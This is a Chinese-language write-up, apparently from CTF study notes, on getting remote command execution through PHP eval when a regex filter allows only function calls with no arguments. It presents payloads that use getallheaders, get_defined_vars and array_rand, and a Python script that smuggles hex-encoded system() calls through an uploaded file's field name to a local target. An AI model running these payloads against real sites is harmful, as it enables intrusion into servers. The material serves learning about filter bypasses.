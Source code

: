 ## 概念
通常情况下我们都是利用一句话木马传参数进行`getshell`，`eval(system('ls /'));`

但是如果对`GET`参数进行正则校验就会将输入的参数过滤掉

`/[^\W]+\((?R)?\)/`只允许执行`a(b(c()));或者a();`,但是不允许`a('123')`,没有参数进行命令执行就会变得困难。

* 超全局变量

    PHP中许多预定义变量都是"超全局的"，这意味着他们在一个脚本的全部作用域中都可用，在函数或者方法中无需执行`flobal $variable;`就可以访问他它们。

## 使用
### getenv办法
* `getenv`

    获取一个环境变量的值，可以获取当前环境变量

* `array_rand()`

    从数组中随机抽取一个或者多个单元(伪随机)，这样获取的是数组中的`键`

* `array_flip()`

    交换数组中的键和值

### getallheaders()

* getallheaders()

    在`apache2`环境中
    可以将获取`http头`中的所有信息，而在http请求头中我们可以`自定义属性和其值`，就像添加XFF那样，添加`sky:system('ls /tmp')`进行RCE

### get_defined_vars()

>使用getallheaders()其实具有局限性，因为它是apache2函数，如果目标中间件部位apache，那么这种方法就会失效，更好的选择是ger_defined_vars()

这种方法可以将变量进行回显，包括全局变量`$_GET,$_POST,$_FILES,$_COOKIE`

`%url%/index.php?code=var_dump(current(get_defined_vars()));&sky=123`这样就会把sky参数回显出来，利用这一特性，我们可以给参数赋恶意值，然后使用此函数对相应参数进行打印执行。

`current() 返回数组中的当前单元, 默认取第一个值。`

为了绕过get,post,cookie三种参数的多重过滤，可以从files参数下手，前辈写的脚本如下

```php
import requests
from io import BytesIO

payload = "system('ls /tmp');".encode('hex')
files = {
  payload: BytesIO('sky cool!')
}

r = requests.post('http://localhost/skyskysky.php?code=eval(hex2bin(array_rand(end(get_defined_vars()))));', files=files, allow_redirects=False)

print r.content
```
